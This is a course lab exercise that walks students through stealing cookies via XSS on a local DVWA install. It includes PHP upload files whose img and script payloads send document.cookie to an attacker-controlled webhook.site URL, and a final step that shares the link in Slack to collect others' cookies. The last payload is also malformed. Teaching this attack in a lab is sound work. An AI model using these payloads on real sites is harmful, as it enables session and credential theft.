 # Cookie Phishing
Welcome!

In this exercise, you have been tasked with assessing a site for XSS vulnerabilities. As part of your task, you will need to show _how_ the website is vulnerable, and how a malicious actor could take advantage of the vulnerability. 

In particular, you will attempt to exploit an XSS vulnerability to steal a user's cookies by:
- Creating a "webhook", which will serve as a malicious server to receive user/victims cookies.
- Building an `img` tag that sends an HTTP request to your webhook.
- Updating the `img` tag to include the user's cookies in a query string.
- Injecting a `script` tag that dumps the image tag to the page. 

## Prework

Before we begin, we will need to set a cookie for us to try and steal. As the victim you will need to open your DVWA instance that is installed onto your VM. Right click on the page and click `Inspect Element` from the drop down menu. Click on `Console`, type the following and press **Enter**:

`document.cookie = "test: password;"`

This will set the cookie for us to steal. If you have visited other websites that have saved cookies onto your VM, this activity will steal those cookies instead. 

## Instructions

In order to steal the cookie information, complete the following:

- Navigate to <https://webhook.site/>. Copy the unique URL provided on the page. This is the URL you'll send requests containing user cookies to.

- Navigate to your DVWA instance. 

- Create a new named `exploit.php` that includes the PHP below:

```
<?php
$html = <<<EOF
<img src ="<Your Webhook URL>" />
EOF;

echo $html;
```

- Save the file. 

- Navigate to **File Upload** tab on the left hand of the DVWA instance. Upload your exploit.php file. Activate your malicious script by going to `localhost/hackable/uploads/exploit.php`. You should see a broken image on the page.

- Return to your Webhook. You should see a new request appear on the left sidebar. This was sent by your image tag, so you know that it's successfully communicating with your "malicious" server.

- Update your file as follows:

```
<?php
$html = <<<EOF
<img src ="<Your Webhook URL>?cookie="+(document.cookie||"no cookie!") />
EOF;

echo $html;
```

- Save the file, and use it to re-upload it to DVWA. Navigate back to `localhost/hackable/uploads/exploit.php`. Your Webhook should receive another request. but _not_ include any cookies (yet!). This is just to verify that your update didn't break the image tag.

- Finally, edit your Gist again. Update it as follows. This will cause the XSS to actually include the user's cookie in the request, or let you know that they don't have anything to steal.

```
<?php
$html = <<<EOF
<script>document.write('<<Your Webhook URL>?cookie='+(document.cookie||'no cookie!') + '"/>')</script>
EOF;

echo $html;
```

- Save your file, and re-upload it one last time. Navigate back to `localhost/hackable/uploads/exploit.php` to activate it. 

- Check your Webhook to ensure you're receiving requests.
  - What do you notice as your `cookie` value?
  - **Note**: If things aren't working as expected, triple-check your quote marks!

- When you verify that you're receiving requests, drop the link in Slack, and watch your logs.
